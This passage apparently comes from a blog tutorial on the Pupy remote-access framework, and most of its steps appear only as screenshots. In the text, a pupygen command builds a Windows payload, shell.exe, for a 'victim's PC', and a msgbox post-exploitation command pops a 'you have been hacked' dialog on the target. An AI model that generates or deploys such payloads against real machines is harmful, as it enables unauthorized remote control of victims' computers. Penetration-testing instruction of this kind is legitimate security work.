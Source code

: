 ![](https://i0.wp.com/3.bp.blogspot.com/-Uq_0ephMlWs/XJCz1F7KQmI/AAAAAAAAAek/GZqUeqiYB-8rGVcScykwUExpwfY-PV58QCEwYBhgL/s1600/2.png?w=640)

Now run pupy using the following command :

This command will open the prompt where you will get your session.

![](https://i2.wp.com/4.bp.blogspot.com/-GeshlpHB7HQ/XJCz3iP5_NI/AAAAAAAAAeY/_TtaCMsnB04BkSEMvAjhMwFmVP9wQLWWgCEwYBhgL/s1600/3.png?w=640)

Now, to create our payload we will use the pupygen. Use the following help command to see all the attributes which we can use :

![](https://i1.wp.com/3.bp.blogspot.com/--xoF1fxAwU8/XJCz3tNA-FI/AAAAAAAAAec/LAfSOXQw3EUbh7GcAYLyqc-d0ka6KI6WwCEwYBhgL/s1600/4.png?w=640)

### **Windows Exploitation**

Now we will create a windows payload in order to exploit windows with the following command :

```
./pupygen.py -O windows -A x86 -o /root/Desktop/shell.exe
```

Here,

**-O:** refers to the operating system

**-A:** refers to the architecture

**-o:** refers to the output file path

![](https://i0.wp.com/3.bp.blogspot.com/-ozK0TALS5o8/XJCz39AbtmI/AAAAAAAAAek/5rmJyZRhhcA1DaDodjcmuaOEc73v5gp_wCEwYBhgL/s1600/5.png?w=640)

When you are successful in executing the shell.exe in the victims’ PC, you will have your session as shown in the image :

![](https://i0.wp.com/4.bp.blogspot.com/-wp3m0MblVt0/XJCz4H-EsUI/AAAAAAAAAec/V-GoC_5k-kYljVUyNoP5xb89DzGovSqegCEwYBhgL/s1600/6.png?w=640)

### **Windows Post Exploitation**

Further, there are a number of post-exploits you can use, they are pretty simple to use. Some of them we have shown in our article. For message dialogue box to pop up on the target machine you can use the following command :

```
msgbox –-title hack "you have been hacked"
```

![](https://i0.wp.com/2.bp.blogspot.com/-9DPvDsKK_I0/XJCz4TcWDgI/AAAAAAAAAek/Hs7QxX9lvnEwJnUiL7jnomE_A_jfMHMCACEwYBhgL/s1600/7.png?w=640)

As per the command, following dialogue box will open on the target machine :

![](https://i0.wp.com/2.bp.blogspot.com/-bvARH1g2DYg/XJCz4iyiYlI/AAAAAAAAAeg/l8EYUijiH9g_zhIaLKAvGdAulj85irTlACEwYBhgL/s1600/8.png?w=640)

You can also access the desktop using the remote desktop module with the following command :

![](https://i2.wp.com/2.bp.blogspot.com/-uwf8ib3ftOc/XJCz5PqXZmI/AAAAAAAAAek/ZNXzgT5AMYA0Bt7DnNvDTeF3AIpHP_zhQCEwYBhgL/s1600/9.png?w=640)
